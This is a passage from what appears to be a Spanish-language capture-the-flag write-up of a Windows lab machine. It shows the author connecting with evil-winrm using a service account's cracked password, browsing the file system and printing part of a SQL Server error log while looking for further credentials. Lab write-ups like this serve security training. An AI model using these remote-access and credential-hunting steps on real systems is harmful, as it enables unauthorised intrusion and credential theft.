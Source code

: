 Vamos a entrar por WinRM y tomar la primera fl... eh, ¿cuál flag?

{% highlight bash %}
❯ evil-winrm -i 10.10.11.202 -u "sql_svc" -p "REGGIE1234ronnie"

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sql_svc\Documents> cd ..
*Evil-WinRM* PS C:\Users\sql_svc> cd Desktop
*Evil-WinRM* PS C:\Users\sql_svc\Desktop> ls -Force
*Evil-WinRM* PS C:\Users\sql_svc\Desktop>
{% endhighlight %}

uh, parece que este usuario solamente tiene la función de como lo dice su nombre... ser un servicio.

Pero siendo un servicio deberíamos tener algún acceso especial, buscando por archivos encontramos lo que parece ser la raíz del SQL Server

{% highlight powershell %}
*Evil-WinRM* PS C:\> ls -Force


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-         2/1/2023   6:37 PM                $Recycle.Bin
d--hsl        7/20/2021  12:20 PM                Documents and Settings
d-----         2/1/2023   8:15 PM                PerfLogs
d-r---         2/6/2023  12:08 PM                Program Files
d-----       11/19/2022   3:51 AM                Program Files (x86)
d--h--         2/7/2023   2:58 PM                ProgramData
d-----       11/19/2022   3:51 AM                Public
d--hs-        7/20/2021  12:20 PM                Recovery
d-----        6/19/2023   5:21 PM                SQLServer
d--hs-       11/18/2022   9:09 AM                System Volume Information
d-r---         2/1/2023   1:55 PM                Users
d-----         2/6/2023   7:21 AM                Windows
-a-hs-        6/18/2023  11:35 PM      738197504 pagefile.sys


*Evil-WinRM* PS C:\> cd SQLServer
{% endhighlight %}

Tiene una carpeta de Logs con un archivo llamado `ERRORLOG.BAK` dentro, estos son registros obviamente, solo que en vez de ser precisamente errores parecen de la misma rutina del SQL Server

{% highlight log %}
2022-11-18 13:43:05.96 Server      Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)
	Sep 24 2019 13:48:23
	Copyright (C) 2019 Microsoft Corporation
	Express Edition (64-bit) on Windows Server 2019 Standard Evaluation 10.0 <X64> (Build 17763: ) (Hypervisor)

2022-11-18 13:43:05.97 Server      UTC adjustment: -8:00
2022-11-18 13:43:05.97 Server      (c) Microsoft Corporation.
2022-11-18 13:43:05.97 Server      All rights reserved.
2022-11-18 13:43:05.97 Server      Server process ID is 3788.
2022-11-18 13:43:05.97 Server      System Manufacturer: 'VMware, Inc.', System Model: 'VMware7,1'.
2022-11-18 13:43:05.97 Server      Authentication mode is MIXED.
2022-11-18 13:43:05.97 Server      Logging SQL Server messages in file 'C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\Log\ERRORLOG'.
2022-11-18 13:43:05.97 Server      The service account is 'NT Service\MSSQL$SQLMOCK'. This is an informational message; no user action is required.
2022-11-18 13:43:05.97 Server      Registry startup parameters:
	-d C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\master.mdf
	-e C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\Log\ERRORLOG